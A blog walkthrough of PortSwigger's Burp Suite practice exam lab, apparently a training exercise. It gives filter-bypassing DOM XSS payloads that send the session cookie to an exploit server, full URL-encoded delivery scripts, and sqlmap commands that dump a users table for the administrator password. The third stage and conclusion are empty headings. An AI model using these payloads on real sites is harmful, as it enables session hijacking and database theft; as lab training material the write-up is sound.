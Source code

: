 ```yaml
---
title: BurpSuite Certified Practitioner Practice Exam
author: H0j3n
date: 2021-11-11 00:00:00
categories: [Webs]
tags: [Webs]
render_with_liquid: false
---
```


### Introduction

PortSwigger has introduced the **Burp Suite Certified Practitioner** accreditation this year. It is a **three-hour** exam and by passing one you'll be able to demonstrate the ability to:

- Detect and exploit common web vulnerabilities.
- Display knowledge of fundamental web technologies
- Adapt attacks to evade common defenses.

The Burp Suite Certified Practitioner exam costs **$99** and you will need to have an **active subscription** to Burp Suite Professional. You can get certified by using only this 3 steps.

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/burp_step_certs.PNG)

Also, if you pass the exam before 15 Dec they will **refund** your $99!

### Burp Suite Certified Practitioner Practice Exam

I will not go further into the explanation of the practice exam as you can read more in [here](https://portswigger.net/web-security/certification/practice-exam) . But there are three (3) stages that we need to complete:

- **Stage 1**: Access any user account.
- **Stage 2**: Use your user account to access the admin interface at **/admin**, perhaps by elevating your privileges or compromising the administrator account.
- **Stage 3**: Use the admin interface to read the contents of **/home/carlos/secret** from the server's filesystem, and submit it using **"submit solution"**.

Before we go through the practice exam, there are few things to take notes.

~~~
-> All the parameters found in this walkthrough might change and will not be the same as yours.
~~~

#### Walkthrough 1/3

When we open the challenge, we can see there is a search function. You can try with a simple payload to check different vulnerabilities such as `single quote (')`, XSS payload or etc. When we try put for example `test123` and view the Burp HTTP history, we can see also `searchResults.js` been requested.

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/burp_found_js.png)

From here, we can see inside the javascript there is `eval` function been used.

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/burp_found_eval.png)

Thanks to [@r00tpgp](https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html) blog, I learn something new. We can use this Chrome extension to easily discover and test inputs passed into sinks that could lead to **DOM XSS vulnerabilities**.

- [Untrusted Types For DevTools](https://chrome.google.com/webstore/detail/untrusted-types-for-devto/bpeblffgmddnafmnmdjohcmkbeifdlnb?hl=en)

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/chrome_extension_untrusted.PNG)

When we search something again, we could see this in our **console**.

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/console_js.png)

Here are payloads that will works:

~~~js
"-alert(1)-"
\\"-alert(1)}//
"-alert(1)}//
~~~

Now, let's create a payload to alert cookies. 

~~~js
"-alert(document.cookie)-"
~~~

We notice that it will get blocked.

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/payload_blocked.png)

Using global variables, we can bypass it.

~~~js
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
~~~

Let's create another payload to test before send to our exploit server. But, this will also get blocked.

~~~js
"-(window["document"]["location"]="https://<CHANGE_HERE>.web-security-academy.net/?"+window["document"]["cookie"])-"
~~~

By replacing `.` with `%2e` we are able to bypass it.

~~~js
"-(window["document"]["location"]="https://<CHANGE_HERE>%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
~~~

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/cyberchef_urlencode_1.png)

We can see our **session key** in log.

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/session_log.png)

When we try to use the first payload **(Before URL Encode)**, it doesn't work. After we use the second payload **(After URL Encode)**, it seems to work now. You can use [CyberChef](https://gchq.github.io/CyberChef/) as it easy to use.

~~~js
# Before URL Encode
<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find="-(window["document"]["location"]="https://<CHANGE_HERE>>%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"';
</script>

# After URL Encode
<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find=%22%2D%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2F<CHANGE_HERE>%252eweb%2Dsecurity%2Dacademy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29%2D%22';
</script>
~~~

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/cyberchef_urlencode_2.png)

Nice! We got the session cookie **(Carlos)** in our log.

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/session_log_2.png)

Change the session cookie and we will get login as **Carlos**!

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/carlos_login.png)


#### Walkthrough 2/3

There is new features `Advanced Search` that we could access using **Carlos** account.

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/advanced_search.png)

By inserting `single quote (')` on the second parameter it will give us SQL Error **(PostgreSQL)**.

~~~bash
https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by='&writer=
~~~

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/sql_error.png)

Since we know the parameter that vulnerable to **SQLi**, we can now use **SQLMap**.

~~~bash
(1)
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --batch

(2) - Get Databases
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --dbs --batch

(3) - Get Tables
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public --tables --batch

(4) - Dump Specific Table
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public -T users --dump --batch
~~~

We will then be able to dump the `users` tables and get the `administrator` password!

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/sqlmap_output.png)

Login as `administrator` and delete **Carlos** account to complete the second (2) stage.

![](https://github.com/H0j3n/H0j3n.github.io/raw/master/assets/uploads/burp/deleted_carlos.png)

If you want to use **SQLMap** in Windows, make sure you have **Python2/Python3** and download the `zip` file from [here](https://sqlmap.org/)

#### Walkthrough 3/3

### Conclusion

### References

- https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html
- https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/
- https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/

